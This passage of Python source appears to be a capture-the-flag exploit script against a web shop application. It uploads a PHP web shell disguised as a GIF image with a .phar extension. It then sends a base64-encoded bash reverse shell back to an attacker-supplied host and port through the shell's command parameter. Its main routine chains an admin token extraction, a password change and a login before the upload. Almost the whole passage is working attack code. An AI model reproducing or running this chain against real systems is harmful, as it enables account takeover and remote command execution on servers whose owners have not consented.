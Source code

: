 ```py
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'id' : (None,"1"),
        'id_user' : (None,"1"),
        'name' : (None,"Raspberry Pi 4"),
        'image': ('0x4rt3mis.phar', data, "image/gif"),
        'description' : (None,"Just Random Text"),
        'price' : (None,"92")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    
# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/item/image/0x4rt3mis.phar?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-uid', '--username', help='User Id to be extracted', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    user_id = args.username
    lhost = args.localhost
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Send the token to the email
    sendToken(rhost,user_id)
    # Extract the admin token
    valueExtract(rhost,user_id)
    # Change password
    changePassword(rhost,token_change)
    # Login and get the flag1
    loginApp(rhost)
    # Upload malicious php
    maliciousUpload(rhost)
    # Get Reverse Shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```
